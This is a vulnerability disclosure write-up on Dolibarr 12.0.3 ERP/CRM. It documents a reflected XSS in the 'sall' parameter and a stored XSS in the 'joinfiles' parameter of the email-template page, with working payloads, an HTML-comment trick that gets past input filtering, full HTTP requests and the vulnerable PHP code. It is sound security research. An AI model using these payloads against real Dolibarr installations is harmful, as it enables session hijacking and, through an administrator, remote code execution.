
# C10001: Dolibarr 12.0.3, Multiples XSS to RCE

[Dolibarr](https://www.dolibarr.org/) is an open source enterprise resource planning and customer relationship management software (ERP/CRM) for companies of all sizes, from SME to large group but also for independents, auto-entrepreneurs or associations as it is quoted by [Wikipédia](https://en.wikipedia.org/wiki/Dolibarr).

To decompress during the development of my static analysis tool, I set myself the goal to audit the latest version of the Dolibarr application (Dolibarr v12.0.3).

As usual, the first step is to retrieve the sources and install the application.

First go to their download page (https://www.dolibarr.org/downloads.php), which offers you to either get the code on [SourceForge](https://sourceforge.net/):
- https://sourceforge.net/projects/dolibarr/files/Dolibarr%20ERP-CRM/

Or to download it from [GitHub](https://github.com/):
- https://github.com/Dolibarr/dolibarr/

The two identified vulnerabilities are:
 - Reflected XSS in a GET parameter (triggered by an administrator)
 - Stored XSS in a POST parameter (triggered by any user who can modify the template of an email which is by default all users, even those who do not have privileges)

 After going through the actions that can be carried out by an administrator, a particularly dangerous action was identified. Using one of the two XSS disocvered in order to have this action executed by an administrator makes it possible for an attacker to obtain a remote code execution. 

## Reflect XSS in a GET parameter

The first identified vulnerability is an Reflected XSS in the GET parameter `sall` from the route <span style="color:red">\<ROOT\>/adherents/list.php</span>.
To identify the entry point we use the following payload `i<3"'ivoire`.





Once the vulnerability is detected we just have to create a valid payload.

Example: `<input autofocus onfocus='alert(1337)' <--!`





### Why ?

The code responsible for the vulnerability is the following:

File: <span style="color:red">\<ROOT\>/adherents/list.php</span>
```php

...

$sall = trim((GETPOST('search_all', 'alphanohtml') != '') ?GETPOST('search_all', 'alphanohtml') : GETPOST('sall', 'alphanohtml'));

...

if ($sall)
{
    foreach ($fieldstosearchall as $key => $val) $fieldstosearchall[$key] = $langs->trans($val);
    print '<div class="divsearchfieldfilter">'.$langs->trans("FilterOnInto", $sall).join(', ', $fieldstosearchall).'</div>';
}

...

```

In order to make sure that the vulnerability has been correctly identified, we will modify the code to:

File: <span style="color:red">\<ROOT\>/adherents/list.php</span>
```php

...

$sall = trim((GETPOST('search_all', 'alphanohtml') != '') ?GETPOST('search_all', 'alphanohtml') : GETPOST('sall', 'alphanohtml'));

...

if ($sall)
{
    foreach ($fieldstosearchall as $key => $val) $fieldstosearchall[$key] = $langs->trans($val);
    print '<div class="divsearchfieldfilter">[XSS]'.$langs->trans("FilterOnInto", $sall).join(', ', $fieldstosearchall).'</div>';
}

...

```

which gives us the following result:



So we have a first vulnerability. The scenario to exploit this one consists in sending via email (or messages, forums, etc.) a malicious link to an administrator.

## Stored XSS in a POST parameter

The first vulnerability has been identified but the probability of an administrator visiting a malicious link may be low. Luckily for us, we were able to identify a second XSS but stored this time. Moreover, this vulnerability can be exploited by any authenticated user.



Which corresponds to the following request:

Request:
```
POST /projects/dolibar/12.0.3/htdocs/admin/mails_templates.php?id=25 HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.16; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 233
Origin: http://127.0.0.1
Connection: close
Referer: http://127.0.0.1/projects/dolibar/12.0.3/htdocs/admin/mails_templates.php?sortfield=type_template,%20lang,%20position,%20label&sortorder=ASC&rowid=51&code=&id=25&action=confirm_delete&confirm=yes&token=%242y%2410%24SBPSdUB2DmrsaHy6oajjXuiE0CYDKRWbyWtLEFZgBjagTaY9ptzAy
Cookie: DOLSESSID_3cf7d57f6a25259d0a0160385799627b=b8b460845389eb4c954a36fbca897a1e; PHPSESSID=59c081265d533a90dc35f69b483be65c; DOLINSTALLNOPING_7d47c028b26e0f9d1c2e2d351e07bf80=1
Upgrade-Insecure-Requests: 1

token=%242y%2410%243rnoPkv3dvlsanIDN%2FewouUiO3oiu1XXiR2vJAsQ4Jy%2FTmaPf1w4G&from=&id=25&label=0&langcode=&type_template=all&fk_user=2&private=0&position=0&topic=test0&actionadd=Ajouter&joinfiles=test1+i%3C3%22%27ivoire&content=test2
```







The POST parameter `joinfiles` is therefore vulnerable. As for the first vulnerability the identification is trivial however the exploitation is less so, because a filtering mechanism seems to be in place.

The method that has been used to work around this mechanism is to use HTML [comments](https://www.w3schools.com/tags/tag_comment.asp) `<!--This is a comment. Comments are not displayed in the browser-->`. 

Example: `test1">error=alert(1338) src="x`

Request:
```
POST /projects/dolibar/12.0.3/htdocs/admin/mails_templates.php?id=25 HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.16; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 276
Origin: http://127.0.0.1
Connection: close
Referer: http://127.0.0.1/projects/dolibar/12.0.3/htdocs/admin/mails_templates.php?sortfield=type_template,%20lang,%20position,%20label&sortorder=ASC&rowid=52&code=&id=25&action=confirm_delete&confirm=yes&token=%242y%2410%246%2FyHe0GZi96PqAYe03%2F07u.a3FeKJv%2FHtxt7QZKFL2TLikMUp0qcS
Cookie: DOLSESSID_3cf7d57f6a25259d0a0160385799627b=b8b460845389eb4c954a36fbca897a1e; PHPSESSID=59c081265d533a90dc35f69b483be65c; DOLINSTALLNOPING_7d47c028b26e0f9d1c2e2d351e07bf80=1
Upgrade-Insecure-Requests: 1

token=%242y%2410%24juTUR6fAlxNNtN%2F69bBpFOq8042fkjNx7iGW26ZQsjBn5eO55uamq&from=&id=25&label=0&langcode=&type_template=all&fk_user=2&private=0&position=0&topic=test0&actionadd=Ajouter&joinfiles=test1%22%3E%3Cimg+on%3C--%21+--%3Eerror%3Dalert%281338%29+src%3D%22x&content=test2
```








### Why ?

The code snippet responsible for the vulnerability

File: <span style="color:red">\<ROOT\>/admin/mails_templates.php</span>
```php

...

$showfield = 1;
$align = "left";
$valuetoshow = $obj->{$tmpfieldlist};

$class = 'tddict';
// Show value for field
if ($showfield) {

...

    if ($tmpfieldlist == 'joinfiles')
    {
        print '<strong>'.$form->textwithpicto($langs->trans("FilesAttachedToEmail"), $tabhelp[$id][$tmpfieldlist], 1, 'help', '', 0, 2, $tmpfieldlist).'</strong> ';
        print '<input type="text" class="flat maxwidth50" name="'.$tmpfieldlist.'-'.$rowid.'" value="'.(!empty($obj->{$tmpfieldlist}) ? $obj->{$tmpfieldlist} : '').'">';
    }

...

}

...

```

As you can see, no sanitization is performed during the rendering of `$obj->{$tmpfieldlist}`. 

If we modify the code like this:

File: <span style="color:red">\<ROOT\>/admin/mails_templates.php</span>
```php

...

$showfield = 1;
$align = "left";
$valuetoshow = $obj->{$tmpfieldlist};

$class = 'tddict';
// Show value for field
if ($showfield) {

...

    if ($tmpfieldlist == 'joinfiles')
    {
        print '<strong>'.$form->textwithpicto($langs->trans("FilesAttachedToEmail"), $tabhelp[$id][$tmpfieldlist], 1, 'help', '', 0, 2, $tmpfieldlist).'</strong> ';
        print '[XSS]<input type="text" class="flat maxwidth50" name="'.$tmpfieldlist.'-'.$rowid.'" value="'.(!empty($obj->{$tmpfieldlist}) ? $obj->{$tmpfieldlist} : '').'">';
    }

...

}

...

```

We get the following results:



